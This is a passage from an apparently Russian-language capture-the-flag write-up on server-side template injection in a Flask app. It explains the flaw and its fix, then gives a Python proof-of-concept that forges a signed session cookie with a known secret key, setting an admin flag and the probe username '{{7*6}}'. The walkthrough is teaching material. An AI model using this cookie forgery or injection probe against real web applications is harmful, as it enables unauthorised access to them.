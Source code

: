 Оцененный шаблон — SSTI!
```commandline
<!DOCTYPE html>
<html lang=en>
   <head>
       <title>42</title>
   </head>
   <body>
       <h1>Learn Templating!</h1>
   </body>
</html>
```
Заставить механизм шаблонизации выполнять для нас простые вычисления не слишком полезно, но это действительно хороший способ продемонстрировать наличие уязвимости SSTI.

Это может произойти только в том случае, если разработчик обращается с шаблонами исключительно глупо (что, в случае с этим веб-приложением, и происходит). Независимо от этого, это все еще одна из самых стереотипных уязвимостей, которые можно найти в приложении Flask — и на то есть причина. Лучшим вариантом было бы передать переменные, которые нужно отрисовать, в Jinja2, а не редактировать шаблон напрямую.

Хорошо, давайте подтвердим наличие уязвимости SSTI.

Мы можем использовать тот же сценарий Proof of Concept, который мы написали для подделки нашего административного cookie-файла, но на этот раз мы установим имя пользователя на « {{7*6}}»:

```commandline
#!/usr/bin/python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

#Flask Initialisation
app = Flask(__name__)
app.config["SECRET_KEY"] = "70a5411082ea8e48cc9e7f7d7c12f2c2"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "{{7*6}}"
    return "Check your cookies", 200

#Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

#Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```
Не забудьте изменить секретный ключ, если вы копируете/вставляете!

Нам нужно запустить это, а затем снова перезаписать наш сеансовый cookie-файл сгенерированным cookie-файлом.
